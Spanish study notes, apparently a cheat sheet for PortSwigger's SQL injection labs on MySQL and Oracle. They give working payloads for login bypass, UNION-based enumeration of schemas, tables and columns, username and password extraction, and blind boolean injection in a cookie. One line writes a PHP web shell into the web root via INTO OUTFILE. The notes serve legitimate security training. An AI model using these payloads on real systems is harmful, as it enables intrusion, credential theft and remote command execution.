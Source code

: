 # SQL Intection 'PortSwigger' MySQL ❮❯

Tags: #BurpSuite #SQLI #Explotacion #Enumeracion 


❯ **burpsuite &> /dev/null & disown** Iniciamos el BurpSuite y lo mandamos a segundo plano


- **union select "<? system($_REQUEST['cmd']) ?>" into "/var/www/html/outfile"** Podemos crear un archivo llamado Outfile que contenga un cmd que nos interpretara comandos. Despues del primer ? va php

### DATABASE - TABLES - COLUMS - DATA 
Asi se conforma una base de datos

#### Lab1 SQL injection vunerability in WHERE clause allowing retrieval of hidden ***'%s'***
Estamos haciendo que nos comente el esto de la query por ende nos debe de mostrar todo el contenido visible de la pagina.
	**’or 1=1-- -    o    'or 1=1#** 
- ***-- - o #*** -> Para comentar lo que hay en la derecha y no se interprete
- or 1=1 -> Devuelve un codigo de estado exitoso TRUE 

#### Lab 2 SQL injection vulnerability allowing login bypass ***'%s'***
De los dos campos que tenemos en un panel de autenticacion, estamos haciendo que nos comente el segundo campo y por ende no tome en cuenta la password.
	**admin'-- -** 
- ***-- -***  Para comentar lo que hay en la derecha y no se interprete

#### Lab3 SQL injection UNION attack, determining the number of columns returned by the query 
A veces el ordenar columnas hace que nos salga un error, con el cual nos podriamos dar una idea, cuando no sale es ahi el numero de columnas existentes.
	**'order by 10-- -** Haremos un ordenamiento de los datos, basandonos en la decima colmuna, de ahi se reduce hasta que no nos muestre el error
Una vez obtenido el numero de las columnas, utlizamos el UNION select para combinar datos
	**'union select 1,2,3-- -** 
* 1,2 -> El numero de columnas que hemos encontrado, en este caso son dos... Si fuera mas seria 1,2,3,4 etc... Si la pagina no te admite numeros, en ese caso poner NULL,NULL,NULL. 
Esto es para MySQL y Microsoft
	**'union select NULL,@@version -- -** Para saber la version de MySQL y Microsoft
	
#### Lab4 SQL injection union attack, finding a column containing text
Una vez obtenido el numero de las columnas, utlizamos el UNION select para combinar datos
	**'union select NULL,'snhsb',NULL-- -** Buscar que campo es inyectable para poder ingresar funciones o comandos.
Dependiendo del campo que sea injectable, podemos colocarle diferentes cosas para que nos reporte algo. Por ejemplo:
* version() -> Podemos usar esos campos para que nos muestre diferentes cosas, en este caso la version
* database() -> Si la segunda columna es inyectable, ahi podriamos hacer que nos muestre la base de datos que esta usando
* user() -> Que me muestre que usuario esta corriendo la base de datos actual 

#### Lab5,6 SQL injection UNION attack, retrieving data from other tables and retrieving multiple values in a single column
- Para listar las bases de datos existentes
	**'union select 1,2,schema_name from information_schema.schemata -- -** Pone el resultado en forma de lista
	**'union select 1,2,*group_concat*(schema_name) from information_schema.schemata -- -** Para saber cuantas bases de datos tenemos, 
pone resultado en una sola linea, este es mas conveniente para listar el usuario y su passwd
	**'union select 1,schema_name,3 from information_schema.schemata -- -** El schema_name siempre va en el campo que es inyectable.

- Para enumerar las tablas 
	**'union select 1,2,table_name from information_schema.tables -- -** Lista las tablas de todas las bases de datos existentes
	**'union select 1,2,table_name from information_schema.tables WHERE table_schema='*DBS*'-- -** Lista las tablas de una base de datos especifica

- Para enumerar las columnas 
	**'union select 1,2,column_name from information_schema.columns WHERE table_schema='*DBS*' and table_name='*TABLENAME*' -- -** Lista las columnas de una base de datos especifica, donde tambien tenemos una tabla especifica

- Para mostrar la data con concatenaciones
	**'union select 1,2,group_concat(*username*, ':' ,*password*) from *DB.TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos (**: = 0x3a** representacion en hexadecimal) Hacemos esto si la base de datos actual no es la que contiene los datos que queremos 
	**'union select 1,2,group_concat(*username*, ':' ,*password*) from *TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos siempre y cuando la tabla sea de la base de datos de la que le queremos extraer los datos
	**'union select 1,2,concat(*username*,':',*password*) from *TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos siempre y cuando la tabla sea de la base de datos de la que le queremos extraer los datos
	**'union select 1,2,*username*||':'||*password* from *TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos siempre y cuando la tabla sea de la base de datos de la que le queremos extraer los datos, esta es otra forma de concatenar, por la web no te deja con group concat
	**'union select 1,*username*,*password* from *TABLENAME* -- -** Muestra los datos de las columnas obtenidas en fila siempre y cuando la tabla sea de la base de datos de la que le queremos extraer los datos, aqui estamos ocupando dos campos que son inyectables

#### Lab7, SQL injection attack, querying the database type and version on Oracle
La tabla DUAL es una tabla especial de una sola columna presente de manera predeterminada en todas las instalaciones de bases de datos de Oracle.
	**'union select NULL,NULL from dual -- -** Debemos de agregar esa tabla en Oracle para que no nos de error 
	**'union select NULL,banner from v$version -- -** Para saber la version de Oracle 

#### Lab10 SQL injection attack, listing the database contents on Oracle
La tabla DUAL es una tabla especial de una sola columna presente de manera predeterminada en todas las instalaciones de bases de datos de Oracle.
	**'union select NULL,NULL from dual -- -** Debemos de agregar esa tabla en Oracle para que no nos de error 
	**'union select NULL,owner from all_tables -- -** Primero listamos contra los propietarios
	**'union select NULL,table_name from all_tables WHERE owner='*OWNERNAME*' -- -** Miramos las tablas existentes de un propietario especifico
	**'union select NULL,column_name from all_tab_columns WHERE table_name='*TABLENAME*' -- -** Miramos las columnas existentes de un propietario especifico
	**'union select 1,2,*username*||':'||*password* from *TABLENAME* -- -** Muestra los datos de las columnas obtenidas en una sola linea delimitado por los dos puntos siempre y cuando la tabla sea de la base de datos de la que le queremos extraer los datos, esta es otra forma de concatenar, por la web no te deja con group concat

#### Lab11 Blind SQL injection with conditional responses
- En este caso el vulnerable es el TrackID, por lo que cuando algo es correcto nos sale en la web 'Welcome Back!'
Ademas de esto debemos de saber el nombre correcto de la DB, username, y asi nosotros por medio de un script de python3 podriamos adivinar la password.
	**Cookie: TrackingId=v54JPAcaS7lKSevV; session=O3YFg0GqU8Wjyv9qBo6F4JDUQGxuTdfg** Es la original
- Para que el script fucnione debemos de saber la longitud de la password y eso se hace de esta manera:
	**Cookie: TrackingId=v54JPAcaS7lKSevV' and (select 'a' from *users* where *username*='administrator' and length(*password*)>=20)='a'-- -; session=O3YFg0GqU8Wjyv9qBo6F4JDUQGxuTdfg**
	* users -> DBs
	* username -> nombre de usuario valido 
	* password -> passwd que queremos encontrar
	* 20 es el tamano de la password y eso lo sabemos porque hasta ahi aun nos sigue saliendo el 'Welcome Back!'
Despues nos hacemos el script en python3 y obtenemos la password.


#### Lab12 Blind SQL injection with conditional errors
